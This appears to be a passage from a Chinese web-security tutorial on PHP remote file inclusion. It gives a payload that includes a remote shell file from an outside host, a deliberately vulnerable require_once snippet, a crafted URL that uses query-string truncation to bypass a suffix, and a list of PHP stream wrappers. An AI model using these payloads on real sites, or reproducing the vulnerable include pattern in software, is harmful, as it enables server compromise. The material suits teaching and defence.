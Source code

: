 
二、远程文件包含
?file=[http|https|ftp]://www.bbb.com/shell.txt

可以有三种，http、https、ftp



有防御的远程文件包含

 
<?php 
    $basePath = $_GET['path'];
    require_once $basePath . "/action/m_share.php";  
?>
攻击者可以构造类似如下的攻击 URL

http://localhost/FIleInclude/index.php?path=http://localhost/test/solution.php? =http://localhost/FIleInclude/index.php?path=http://localhost/test/solution.php%23

产生的原理:

/?path=http://localhost/test/solution.php?

最终目标应用程序代码实际上执行了:

require_once "http://localhost/test/solution.php?/action/m_share.php";

注意，这里很巧妙，问号 "?" 后面的代码被解释成 URL 的 querystring，这也是一种"截断"思想，和 %00 一样

攻击者可以在 http://localhost/test/solution.php 上模拟出相应的路径，从而使之吻合



PHP 中的封装协议(伪协议)

http://cn2.php.net/manual/zh/wrappers.php

file:///var/www/html 访问本地文件系统

ftp://<login>:<password>@<ftpserveraddress> 访问 FTP(s) URLs

data:// 数据流

http:// — 访问 HTTP(s) URLs

ftp:// — 访问 FTP(s) URLs

php:// — 访问各个输入/输出流

zlib:// — 压缩流

data:// — Data (RFC 2397)

glob:// — 查找匹配的文件路径模式

phar:// — PHP Archive

ssh2:// — Secure Shell 2

rar:// — RAR

ogg:// — Audio streams

expect:// — 处理交互式的流
